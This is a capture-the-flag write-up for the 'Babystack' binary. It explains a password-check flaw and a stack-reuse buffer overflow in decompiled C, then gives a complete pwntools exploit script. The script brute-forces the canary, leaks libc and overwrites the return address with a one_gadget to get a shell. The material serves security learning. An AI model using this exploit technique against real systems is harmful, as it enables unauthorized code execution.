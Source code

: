 ```yaml
---
title: "Babystack"
date: 2023-05-09T00:22:46-07:00
draft: true
---
```


# The binary

So this binary is super small, but it's stripped for the 
most part making it pretty annoying to work with. I opened 
it up in ghidra and found the main function. Essentially what
the program does is open up the `/dev/urandom` file on the 
filesystem and save 16 bytes of that to a local variable. This 
is shown here:
```C
rand_fp = open("/dev/urandom",0);
read(rand_fp,&rand_str,0x10);
puVar1 = DAT_00302020;
*DAT_00302020 = rand_str;
puVar1[1] = local_20;
close(rand_fp);
```
rand_str is what I named this random string that gets pulled from
the urandom file. 

Then the program moves on to a while loop that has 3 'menu' options:
1. Sends you to a password check
2. Leaves the program
3. Sends you to a copy function

### The password check
This is a super simple function that takes in your input and compares
it with the string that was passed into the function:
```C 
printf("Your passowrd :");
FUN_00100ca0(local_88,0x7f); // reading 127 bytes of input
__n = strlen(local_88);
iVar1 = strncmp(local_88,param_1,__n);
if (iVar1 == 0) {
DAT_00302014 = 1;
puts("Login Success !");
} else {
puts("Failed !");
}
return;
```
One issue with this is that it only checks the number of bytes that you 
sent, so if you send nothing (or a null byte), it automatically succeeds. We can use that
in the exploit. 

### The Copy function
This is a weird copy function that creates a 128 byte string and reads 64 bytes of user 
input into the beginning of it, then copies the whole thing to a variable that gets
passed into the function. This is what it looks like:
```C
char local_88 [128];
printf("Copy :");
FUN_00100ca0(local_88,0x3f);
strcpy(param_1,local_88);
puts("It is magic copy !");
return;
```
I was really confused why it only asks for 64 bytes of input when the buffer is 128. 
Then it hit me. The stack of the password function is in the same location as the 
stack in the copy function. This means that if you set the variable longer than 64 bytes
in the password function, those last bytes are going to be copied into the copy buffer.

This is essentially the trick that ends up with a buffer overflow.

# The exploit
So I was able to overwrite the stack, but there was a custom stack check built into the 
program that kept me from a segfault. This led me to brute force the canary since the 
canary is the password that your input gets checked against, you can guess as many times
as you want. What I ended up doing is brute forcing the stack canary one byte at a time.
This wasn't too difficult, and I could brute force it pretty much instantly. This part 
got me to a return address overwrite, but I had no idea what to return to. Well, convieniently
The spot on the stack where the random string is in the password function happens to be taken
by a libc address on the copy function. This is how we get the libc leak. We can copy the 
libc address into the password variable and brute force it byte-by-byte. 

This lead to a nice leak of the libc and I was able to take that leak and convert it to a
one_gadget and append it to the return address. This ended up getting the shell. I had some
issues on remote since it was a brute force, but running it for about 20 minutes got a shell 
just fine. This is what my final exploit looked like: 
```C 
def brute():
    some = b''
    for x in range(16):
        s = b''
        for i in range(1, 255):
            p.sendline(b'1')
            p.recvuntil(b'Your passowrd :')
            payload = some + i.to_bytes(1)
            p.sendline(some + i.to_bytes(1))
            conf = p.recv()
            if b'Failed' not in conf:
                print(conf)
                s = i.to_bytes(1)
                p.sendline(b"1")
                p.recv()
                break
        some += s
    return some

p = conn() # Connecting to the server
rand = brute()
print('Rand str {}'.format(rand))
p.sendline(b'1')
print(p.recv())
p.send(b'\x00' + b'A'*(71))
print(p.recv())
p.sendline(b'3')
print(p.recvuntil(b'Copy :'))
p.send(b'B'*0x3f)
print(p.recvuntil(b'>> '))
p.sendline(b'1')
print(p.recvuntil(b'>> '))
leak = brute()
addr = unpack(leak[8:16], 'all')
print(hex(addr -492601))
libc.address = addr-492601
p.sendline(b'1')
print(p.recv())
p.sendline(b'\x00' + b'A'*(63) + rand + b's'*24 + p64(libc.address + 0x45216))
print(p.recv())
p.sendline(b'3')
print(p.recv())
p.send(b'B'*0x3f)
print(p.recv())
p.sendline(b'2')
p.interactive()
```
Thanks for reading. If you have any questions feel free to reach out to me on twitter @lucasballr
